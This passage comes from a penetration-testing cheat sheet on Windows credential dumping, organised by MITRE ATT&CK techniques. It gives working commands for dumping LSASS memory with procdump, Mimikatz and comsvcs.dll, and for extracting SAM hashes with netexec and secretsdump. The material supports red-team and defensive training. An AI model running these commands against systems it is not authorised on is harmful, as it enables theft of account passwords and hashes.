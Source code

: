 | **Secur32.dll**  | A multiple authentication provider that integrates various authentication components.                                                                  |

---

### 1.1 LSASS Memory Dump

According to [MITRE](https://attack.mitre.org/techniques/T1003/001/), credentials in the LSASS process memory can be dumped in many ways.

#### 1.1.1 ProcDump
```bash
procdump -ma lsass.exe lsass_dump
```

#### 1.1.2 Mimikatz
```bash
sekurlsa::Minidump lsassdump.dmp
sekurlsa::logonPasswords
```

#### 1.1.3 Built-in Windows Tools - comsvcs.dll
```bash
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump PID lsass.dmp full
```

#### 1.1.4 Task Manager
![](https://i.imgur.com/EnEyDrY.png)

#### 1.1.5 Process Explorer
![](https://i.imgur.com/5felLNA.png)

---

### 1.2 Security Account Manager

The [Security Account Manager (SAM)](https://en.wikipedia.org/wiki/Security_Account_Manager) is a database file that stores users' passwords. Typically, SAM is used for local accounts, and enumerating it requires SYSTEM-level access.

According to [MITRE](https://attack.mitre.org/techniques/T1003/002/), SAM is typically used for local accounts.

Normally the SAM databases are stored in following.
```bash
%systemroot%\system32\config\sam   #main
%systemroot%\repair\sam._          #backup
```

#### 1.2.1 netexec
```bash
netexec smb <IP> -u <User> -p <Password> --sam --local-auth
```

#### 1.2.2 Secretsdump
```bash
secretsdump.py -sam SAM -system SYSTEM LOCAL
or
impacket-secretsdump
```
